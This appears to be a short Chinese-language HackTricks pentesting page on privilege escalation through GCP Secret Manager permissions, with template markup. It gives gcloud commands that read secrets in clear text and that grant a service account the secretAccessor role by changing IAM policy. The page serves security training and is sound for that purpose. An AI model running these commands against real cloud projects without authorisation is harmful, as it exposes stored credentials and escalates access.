 # GCP - Secretmanager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## secretmanager

有关 secretmanager 的更多信息：

{{#ref}}
../gcp-services/gcp-secrets-manager-enum.md
{{#endref}}

### `secretmanager.versions.access`

这使您可以访问 secret manager 中的秘密，可能有助于提升权限（具体取决于秘密中存储的信息）：
```bash
# Get clear-text of version 1 of secret: "<secret name>"
gcloud secrets versions access 1 --secret="<secret_name>"
```
作为这也是一种后期利用技术，它可以在以下位置找到：

{{#ref}}
../gcp-post-exploitation/gcp-secretmanager-post-exploitation.md
{{#endref}}

### `secretmanager.secrets.setIamPolicy`

这使您能够访问从秘密管理器读取秘密，例如使用：
```bash
gcloud secrets add-iam-policy-binding <scret-name> \
--member="serviceAccount:<sa-name>@$PROJECT_ID.iam.gserviceaccount.com" \
--role="roles/secretmanager.secretAccessor"
```
{{#include ../../../banners/hacktricks-training.md}}

